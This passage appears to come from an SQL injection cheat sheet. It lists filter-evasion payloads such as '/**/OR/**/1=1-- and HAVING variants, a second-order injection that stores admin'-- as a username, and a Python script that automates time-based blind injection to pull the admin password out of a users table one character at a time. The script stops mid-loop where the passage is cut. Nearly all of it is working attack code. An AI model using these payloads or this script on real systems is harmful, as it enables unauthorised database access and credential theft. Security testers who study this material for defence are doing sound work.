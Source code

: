 #### 4. Function Variations
```sql
-- Space replacement
'+OR+1=1--
'/**/OR/**/1=1--
'%0aOR%0a1=1--

-- Keyword alternatives
' HAVING 1=1--
' GROUP BY 1 HAVING 1=1--
' ORDER BY IF(1=1,1,1/0)--
```

### Second-Order Injection
```sql
-- Step 1: Store malicious payload
Registration: username = admin'--

-- Step 2: Payload executed in password reset
SELECT email FROM users WHERE username = 'admin'--'
```

### Time-Based Blind Injection Automation
```python
#!/usr/bin/env python3
import requests
import string
import time

def time_based_sqli(url, param, delay_time=5):
    """
    Automated time-based blind SQL injection
    """
    charset = string.ascii_letters + string.digits + "!@#$%^&*()_+-="
    extracted_data = ""
    position = 1
    
    while True:
        found_char = False
        
        for char in charset:
            # MySQL time-based payload
            payload = f"1' AND IF((SELECT SUBSTRING(password,{position},1) FROM users WHERE username='admin')='{char}',SLEEP({delay_time}),0)--"
            
            start_time = time.time()
            
            try:
                response = requests.get(url, params={param: payload}, timeout=delay_time+2)
                end_time = time.time()
                
                # Check if response was delayed
                if end_time - start_time >= delay_time:
                    extracted_data += char
                    print(f"Found character at position {position}: {char}")
                    print(f"Extracted so far: {extracted_data}")
                    position += 1
                    found_char = True
                    break
                    
            except requests.Timeout:
                # Timeout indicates successful injection
                extracted_data += char
                print(f"Found character at position {position}: {char}")
```
